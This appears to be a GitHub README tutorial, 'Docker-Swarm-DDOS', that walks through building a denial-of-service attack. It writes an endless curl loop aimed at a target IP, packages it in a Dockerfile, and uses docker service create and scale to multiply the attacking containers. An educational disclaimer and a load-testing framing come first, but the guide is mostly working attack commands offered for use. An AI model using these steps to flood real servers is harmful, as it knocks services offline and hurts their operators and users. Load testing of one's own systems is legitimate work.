 # Docker-Swarm-DDOS
## How to create a Denial of Service Attack through Docker Swarm.
#### Quick Disclaimer: This information is for educational purposes only and should not be used with malicous intent. Also the following guide has been tested only for Mac and Ubuntu, minor differences might exist on other OS.

This repository will help you to create a DDOS attack on a server. This could be useful if working on a project and trying to test out what will happen if there is some traffic, heavy traffic or a full fleshed DDOS attack.

### List of Tasks

- [ ] Installing Docker
- [ ] Creating the Script
- [ ] Setting up Dockerfile
- [ ] Creating a Custom Docker Image
- [ ] Creating and Scaling a Service


### Installing Docker
If you have this part already complete feel free to move on to the next, otherwise here is a link that you could follow in order to get this part started.

Please instiall the proper verison for your OS and then return back to this guide. :+1:

https://www.docker.com/community-edition

- [x] Installing Docker

### Creating the Script
Now that we have Docker installed and running lets get started with creating a directory.
It doesnt matter where this directory is, but to keep in simple for now I'll go with this

```
$ mkdir $HOME/DockerAttack
$ cd $HOME/DockerAttack
```
>Following is done through iTerm or a Terminal
>I personally use vim for this, but any way would really do.
>$ vim curlAttack.sh
There's not much to the script, in fact its a simple looping curl, it looks something like this
```sh
while true
do
#Please use 'man curl' to see what -vk is for, also -X command can be useful too.
curl -vk https:://<ip>
#sleep 5
done
exit 0
```
> I'd actually reccomend to first write a curl command that works for your server in a terminal, then copy paste it into the script.

At this point you could test it out by adding execution permission and then running it.
```
$ chmod +x curlAttack.sh
$ ./curlAttack.sh
```

- [x] Creating the Script


### Setting up Dockerfile
Without switching to a different directory lets create our Dockerfile.

>$ vim Dockerfile
```
FROM tutum/curl
ADD curlAttack.sh /usr/local/bin/curlAttack.sh
CMD ["usr/local/bin/curlAttack.sh"]
```
- [x] Setting up Dockerfile

### Creating a Custom Dockerfile

Now that dockerfile is set up properly, without switching into a different directory run the following command.
```
  $ docker build -t <imageName>:dockerfile .
```
Check if it was succesfull by running
 ```
 $ docker images
 ```
 
 If you can find your image with the tag 'dockerfile' then we're good to go to the next step.
 
 - [x] Creating a Custom Docker Image
 
### Creating and Scaling a Service

Start all the following commands with **docker service**

| Command   | Description |
| ------------- | ------------- |
|  create --name \<serviceName> --detach=false \<imageName>:dockerfile | Creates a service from the custom dockerfile image.  |
| scale \<serviceName>=\<#>  | Used to easily scale number of copies of the service.  |

